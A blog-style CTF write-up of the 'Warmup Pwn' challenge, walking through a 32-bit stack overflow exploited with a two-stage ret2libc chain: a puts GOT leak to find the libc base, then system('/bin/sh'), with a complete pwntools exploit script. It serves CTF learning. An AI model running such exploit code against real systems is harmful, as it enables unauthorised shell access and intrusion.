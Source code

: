 ﻿---
title: "SANS Offensive Operations CTF - Pwn Writeup"
date: 2024-02-27
tags: ["exploit-dev", "SANS", "ctf"]
draft: false
---

# SANS Offensive Operations CTF
This was a challenge in the pwn category of the SANS Offensive Operations 2024 CTF. This is a writeup for the challenge "Warmup Pwn". Unfortunately, I did not take any screenshots or save the challenge files so I'll mainly be walking through what I did and the script I made.

## Warmup Pwn - First Look
The challenge tells us to connect using nc warmup.pwn.site 5005. They provide us with two files: target and libc-2.27.so. Right off the bat I can assume that this will be some sort of ret2libc attack. 

The first thing I'll do when doing these pwn challenges is to make the binary executable, run the file command, and run checksec to see what protections are on the binary.

`chmod +x target; file target; checksec target`

For this challenge, we'll get an output similar to this:

```bash
secureserver: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=ba7b32f02b9ce5948bcb57c33599de4ad17682de, for GNU/Linux 3.2.0, not stripped

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```

We can see that our binary is 32bits and is not stripped. We have NX enabled but no PIE which is good. At this point, we could open up a disassembler like ghidra, but I like to run the binary and play with it first. 

## GDB-GEF - Exploiting a Buffer Overflow

The binary prints out a string saying system @ (address) and then prompts for user input. I try playing around with the buffer to see if I can crash the program and I get a segmentation fault. 

I like to use GDB-GEF to figure out my offset using pattern create and pattern offset.


```bash
gef➤  pattern offset 0x61616174
[+] Searching for '74616161'/'61616174' with period=4
[+] Found at offset 44 (little-endian search) likely
```
I find my offset at 44 and test to ensure that I can overwrite the EIP. 

`$eip   : 0x42424242 ("BBBB"?)`

Now that I have control of the instruction pointer I can start putting together a python script to exploit this vulnerability.

```python
import pwn
from pwn import *

elf = ELF('./target')
libc = ELF('./libc-2.27.so')

local = False

if local:
    s = elf.process()
else:
    host = 'warmup.pwn.site'
    port = 5005
    s = remote(host, port)

s.recvuntil("> ")
payload = b'A' * 44
```

I know that we have NX/DEP and ASLR enabled. NX/DEP means that we cannot run shellcode directly on the stack and ASLR means that our string and functions will be randomized at runtime.

In order to handle NX we will use ROP (return oriented programming) and to deal with ASLR we need to leak an address of a pointer to a function in libc and use the libc binary that was provided to calculate the libc base address.

### ROP
Return oriented programming is essentially reusing code within a program by redirecting the execution flow of a program through a vulnerability like a buffer overflow to jump to other instructions within a binary. 

We know that the libc library that's used by the program has access to the function *system*. We can redirect the control flow and call system("/bin/sh) to trigger a shell.

However, in order to do so, I have to know the address of system in libc. Due to ASLR, the base addresses of the libraries changes each time the program is executed. In order to find a way to determine the address of system in libc we have to exploit the overflow twice.

### Leaking LIBC Base Address
First, we will send a payload to overwrite the EIP to call the puts function to print the address of a pointer to a function in libc. Then we'll also have it jump back to the start of the main function so that we can exploit the buffer overflow a second time to redirect the flow to call system("/bin/sh) and get a shell.

So we will call the puts function to print a pointer to the terminal.

 We can call puts, but not system, due to the fact the binary was not complied with a position independent code flag, therefore the binary relies on a fixed offset to the procedural linking table (PLT). Any function inside PLT has a static address. The compiler will reference every function used in the binary inside a lookup table called the global offset table (GOT). So puts exists in the PLT, but system does not. 

 ```bash
 gef➤  disas puts
Dump of assembler code for function puts@plt:
   0x08049050 <+0>:     jmp    DWORD PTR ds:0x804c014
   0x08049056 <+6>:     push   0x10
   0x0804905b <+11>:    jmp    0x8049020
End of assembler dump.
```

Let's continue building our script to print out the leaked address.

```python
gotputs = elf.got.puts
pltputs = elf.plt.puts

s.sendline(payload + p32(pltputs) + p32(0x80491d8) + p32(gotputs))
leak = s.recvline().strip()
leak1 = leak[:4]
leak2 = u32(leak1)
print(hex(leak2))
wow = hex(leak2)
```

Since PIE is not enabled we can use pwntools to find the addresses of puts in plt and puts in got. We send the first payload that calls puts (PLT) to print out address to puts (GOT). 

We can then use that address and subtract it from the offset of the address of puts in the libc file that was provided to calculate the libc base address.

### Here Comes Da Shell!

```python
libc.address = leak2 - libc.symbols.puts
system = libc.symbols.system
binsh = next(libc.search(b'/bin/sh\x00'))
s.sendline(payload + p32(system) + p32(0x0) + p32(binsh))
s.interactive()
```

We can use libc.address to automatically use that as our base address with pwntools and easily find the system function and the string '/bin/sh' in libc and exploit the buffer overflow a second time to return a shell!

My final exploit script looked like this:

```python
import pwn
from pwn import *

elf = ELF('./target')
libc = ELF('./libc-2.27.so')

local = False

if local:
    s = elf.process()
else:
    host = 'warmup.pwn.site'
    port = 5005
    s = remote(host, port)

s.recvuntil("> ")
payload = b'A' * 44
gotputs = elf.got.puts
pltputs = elf.plt.puts

s.sendline(payload + p32(pltputs) + p32(0x80491d8) + p32(gotputs))
leak = s.recvline().strip()
leak1 = leak[:4]
leak2 = u32(leak1)
print(hex(leak2))
wow = hex(leak2)

libc.address = leak2 - libc.symbols.puts
system = libc.symbols.system
binsh = next(libc.search(b'/bin/sh\x00'))
s.sendline(payload + p32(system) + p32(0x0) + p32(binsh))
s.interactive()
```

Thanks for reading. Noob out.